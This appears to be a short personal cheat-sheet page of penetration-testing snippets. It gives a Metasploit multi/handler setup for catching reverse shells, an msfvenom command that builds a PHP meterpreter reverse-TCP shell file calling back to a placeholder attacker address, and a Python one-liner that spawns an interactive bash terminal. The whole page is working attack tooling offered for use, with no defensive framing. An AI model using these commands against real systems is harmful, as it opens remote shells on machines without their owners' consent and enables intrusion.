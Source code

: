 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python
#### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
